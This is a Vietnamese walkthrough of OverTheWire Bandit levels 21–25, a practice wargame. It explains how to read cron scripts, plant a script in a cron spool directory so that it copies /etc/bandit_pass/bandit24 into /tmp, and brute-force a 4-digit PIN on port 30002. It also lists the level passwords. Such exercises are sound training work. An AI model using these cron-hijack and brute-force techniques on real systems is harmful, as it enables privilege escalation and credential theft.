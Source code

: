 Step 1 : cat cronjob_bandit22

Theo như gợi ý ở, hãy di chuyển đến path /etc/cron.d và để ý thấy file cronjob_bandit22. Sau khi đọc file, di chuyển đến path /usr/bin/cronjob_bandit22.sh

Đọc file này và nhận thấy password sẽ nhằm trong file /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

Command: cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

Password: WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

**Level 22 → Level 23**

Giống như lv trước, đọc file cronjob_bandit23

Command : echo I am user bandit23 | md5sum | cut -d ' ' -f 1

Nhận được tên file sau khi băm md5, di chuyển vào đọc file sẽ nhận được pass

Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

**Level 23 → Level 24**

Ở file shell script cronjob_bandit24, script ở đây sẽ thực hiện thực thi và xoá tât cả script trong /var/spool/bandit24/foo

Giống như những lv trước, nhưng lv này chúng ta phải tự tạo shell script sau đó copy vào trong /var/spool/bandit24/foo để cron chạy script của chúng ta đọc password rồi trả về kêt quả . 

Command: vi tlbd23.sh

Note: tạo file trong /tmp

Command:#!/bin/sh

	cat /etc/bandit_pass/bandit24 >> /tmp/tlbandit23/bandit24pass
 
Note: add script vào file tlbd23.sh

	chmod 777 tlbd23.sh
 
Note: cấp quyền ghi cho tlbd23.sh

	cp tlbd23.sh /var/spool/bandit24/foo
 
Note: sao chép tệp vào đường dẫn và chờ thực thi, sau đó sẽ gửi lại file bandit24pass chứa password

Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

**Level 24 → Level 25**

Lv này yêu cầu gửi Pass đến cổng 30002 và 1 mã pin 4 số. Ta sẽ dùng Brute-Force để check mã pin này

Script : 

#!/bin/bash


for i in {0000..9999}

do

	echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
 
done
